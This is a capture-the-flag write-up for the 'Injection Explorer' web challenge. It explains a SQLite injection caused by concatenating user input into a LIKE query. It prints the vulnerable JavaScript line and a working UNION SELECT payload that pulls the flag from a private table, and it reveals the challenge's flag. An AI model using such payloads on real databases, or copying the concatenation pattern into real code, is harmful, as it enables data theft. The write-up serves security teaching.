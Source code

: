 ```yaml
---
challenge: Injection Explorer
description: Exploit a vulnerability in the website to extract hidden information lurking within its database.\nSource code for the website is attached.
flag: ATR{B1LL_15_N0T_4_G00D_PR0GR4MM3R}
scoring: decaylog(350,250,10)
value: 350
category: Hard
authors: Sean McGinty
---
```


# Injection Explorer

[Back to Home](../../README.md)

## Points

Hard - 350 points

## Description

Exploit a vulnerability in the website to extract hidden information lurking within its database.
Source code for the website is attached.

See [https://github.com/s3ansh33p/atr24_injection_explorer](https://github.com/s3ansh33p/atr24_injection_explorer) for the source code.

## Solution

Looking in the app.js file, we can see that the website is using a SQLite database to store information.

The website allows us to search for names from a `public` table.

The setup SQL is as follows:
```sql
CREATE TABLE names (name varchar(255));
CREATE TABLE private (flag varchar(255));
INSERT INTO names (name) VALUES ('Alice', 'Bob', 'Carol', 'Dave', 'Eve', 'Frank', 'Grace', 'Heidi', 'Ivan', 'Judy', 'Katherine', 'Lochlan', 'Michael', 'Nick', 'Oscar', 'Patrick', 'Quincy', 'Rupert', 'Sybil', 'Trent', 'Ulysses', 'Victor', 'Walter', 'Xavier', 'Yvonne', 'Zoe');
INSERT INTO private (flag) VALUES ('ATR{TEST_FLAG}');
```

The website does a very poor job of sanitising user input, allowing us to perform SQL injection, as it simply concatenates the user input into the SQL query.
```js
const sql = "SELECT name FROM names WHERE name LIKE '%" + query + "%'";
```

By simply starting our query with `'`, we can add our own SQL to the query.

We know that the flag is stored in the `private` table, so we can use a UNION query to extract the flag.

```sql
' UNION SELECT flag FROM private --
```

This will be templated into the SQL query as follows:
```sql
SELECT name FROM names WHERE name LIKE '%' UNION SELECT flag FROM private -- %'
```

The use of `--` comments out the rest of the query, so we avoid any syntax errors.

This returns the flag and the list of names on the website, which is `ATR{B1LL_15_N0T_4_G00D_PR0GR4MM3R}`.